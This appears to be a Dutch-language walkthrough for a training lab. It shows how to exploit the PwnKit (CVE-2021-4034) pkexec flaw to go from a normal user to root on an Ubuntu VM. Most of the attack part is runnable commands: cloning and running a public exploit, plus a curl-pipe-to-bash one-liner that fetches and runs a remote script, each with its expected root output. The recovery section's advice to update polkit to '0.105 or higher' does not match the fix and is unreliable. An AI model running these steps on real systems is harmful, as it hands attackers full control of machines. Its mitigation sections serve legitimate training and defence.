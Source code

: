 # CVE-2021-4034 (PwnKit) Exploitatie Gids

## 🎯 Overzicht

Deze gids demonstreert hoe je CVE-2021-4034 kunt exploiteren, een lokale privilege-escalatie kwetsbaarheid in de pkexec-component van Polkit. De exploit stelt een lokale gebruiker in staat om root-rechten te verkrijgen op kwetsbare systemen.

## 📋 Vereisten

- SSH-toegang tot de kwetsbare (Ubuntu) VM als gebruiker `tester`
- Internetverbinding om GitHub te bereiken
- Basiskennis van Linux command line
- Kali Linux VM voor exploitatie

## 📝 Cheatsheet

- SSH naar de kwetsbare VM: `ssh tester@<ubuntu_ip>`
- Controleer huidige rechten: `id`
- Clone exploit en navigeer:
  ```bash
  git clone https://github.com/cd80-ctf/CVE-2021-4034.git && cd CVE-2021-4034
  ```
- Maak exploit uitvoerbaar: `chmod +x run.sh`
- Voer exploit uit: `./run.sh`
- Verifieer root-toegang: `id` of `whoami`
- Voor preventie en herstel: zie secties "Best Practices" en "Impact & Recovery"

## 🔍 Kwetsbaarheidsanalyse

### Technische Details

- **Component**: pkexec (Polkit)
- **Type Kwetsbaarheid**: Lokale Privilege Escalatie (LPE)
- **CVSS Score**: 7.8 (Hoog)
- **Oorzaak**: Out-of-bounds schrijven in argumentafhandeling

### Getroffen Systemen

- Ubuntu 18.04 (en andere Linux distributies)
- Systemen met Polkit versies voor de fix

## 🚀 Exploitatiestappen

### 1. Initiële Toegang

1. SSH naar de kwetsbare (Ubuntu) VM (vanaf de Kali Linux VM):

   ```bash
   ssh tester@<ubuntu_ip>
   ```

2. Controleer huidige rechten:
   ```bash
   id
   # Verwacht resultaat: uid=1000(tester) gid=1000(tester) groups=1000(tester)
   ```

### 2. Exploit Setup

#### Methode 1: Handmatige Setup

1. ssh naar de ubuntu vm

```bash
ssh tester@<ubuntu_ip>
```

2. Clone de exploit repository:

   ```bash
   git clone https://github.com/cd80-ctf/CVE-2021-4034.git
   cd CVE-2021-4034
   ```

3. Maak de exploit uitvoerbaar:

   ```bash
   chmod +x run.sh
   ```

4. Voer de exploit uit:
   ```bash
   ./run.sh
   ```

#### Methode 2: One-liner (Git)

```bash
ssh tester@<ubuntu_ip> \
  'git clone --depth 1 https://github.com/cd80-ctf/CVE-2021-4034.git \
   && cd CVE-2021-4034 \
   && chmod +x run.sh \
   && ./run.sh'
```

#### Methode 3: One-liner (Curl)

```bash
ssh tester@<ubuntu_ip> 'curl -sL https://raw.githubusercontent.com/cd80-ctf/CVE-2021-4034/main/run.sh | bash'
```

### 3. Verificatie

1. Na succesvolle exploitatie, controleer root-toegang:

   ```bash
   id
   # Verwacht resultaat: uid=0(root) gid=0(root) groups=0(root)
   ```

2. Test root-rechten:
   ```bash
   whoami
   # Verwacht resultaat: root
   ```

## 📚 Begrip van de Exploit

### Hoe het Werkt

1. De exploit maakt gebruik van een geheugencorruptie kwetsbaarheid in pkexec
2. Het manipuleert omgevingsvariabelen om de kwetsbaarheid te triggeren
3. De exploit creëert een kwaadaardige omgeving die leidt tot root-toegang

### Technische Details

De kwetsbaarheid bestaat omdat pkexec command-line argumenten niet correct verwerkt, wat leidt tot een out-of-bounds schrijven. Dit stelt een aanvaller in staat om geheugen te manipuleren en verhoogde rechten te verkrijgen.

## 🔒 Veiligheidsimplicaties

- Elke lokale gebruiker kan root-toegang krijgen
- Geen speciale rechten vereist
- Kan worden gebruikt als onderdeel van een grotere aanvalsketen

## 📝 Best Practices

1. **Voor Systeembeheerders**

   - Houd systemen up-to-date
   - Pas beveiligingspatches direct toe
   - Verwijder SUID-bit van pkexec indien onnodig: `sudo chmod 0755 /usr/bin/pkexec`
   - Overweeg gebruik van AppArmor/SELinux profielen voor pkexec

## 🔄 Impact & Recovery

- Na exploitatie kan een aanvaller volledige root-toegang verkrijgen, wat leidt tot installatie van rootkits, backdoors en volledige compromittering.
- Recovery stappen:
  1. Beëindig ongeautoriseerde sessies en wijzig alle wachtwoorden.
  2. Reset SUID-bit voor pkexec: `sudo chmod 0755 /usr/bin/pkexec`.
  3. Update polkit naar versie 0.105 of hoger.
  4. Overweeg herinstallatie van het besturingssysteem bij vermoeden van rootkit-infectie.

## 🙏 Credits

- Originele kwetsbaarheidsontdekking: **Qualys Security**
- Exploit code: [cd80-ctf](https://github.com/cd80-ctf/CVE-2021-4034)

## ⚠️ Disclaimer

Deze gids is alleen bedoeld voor educatieve doeleinden. De exploit mag alleen worden gebruikt in gecontroleerde omgevingen met de juiste autorisatie.

